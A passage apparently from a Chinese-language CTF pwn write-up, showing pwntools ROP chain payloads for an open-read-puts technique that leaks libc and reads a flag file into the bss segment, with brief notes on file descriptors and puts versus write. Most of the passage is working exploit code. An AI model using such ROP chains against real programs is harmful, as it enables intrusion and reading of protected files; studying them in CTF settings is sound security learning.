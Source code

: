 ```plain
p.send(pl)

syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main) #8
#dbg()
p.send(pl)
```

‍

pl 1、2正常起手，pl 3来获取libc地址

```plain
pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)
```

‍

> read()
> 
> 文件描述符：0标准输入，1标准输出，2标准报错，3、4、5 .. 第一、二、三 ...个文件
> 
> ‍
> 
> ORP和ORW：
> 
> puts更方便，只需要一个参数，而write需要多次传参
> 
> 但puts遇到'x00'停止，有些ex的flag可能会故意带上'\\x00'

‍

将flag读入bss段

```plain
pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main)
dbg()
p.send(pl)
pause()
p.send('flag')
```

[![](assets/1701606597-38e4655bb25f45df0a325ead09d622b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170350-0ee87556-845f-1.png)

[![](assets/1701606597-a028ede4e02adaa0c0227a95a22d1ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170354-115f8522-845f-1.png)
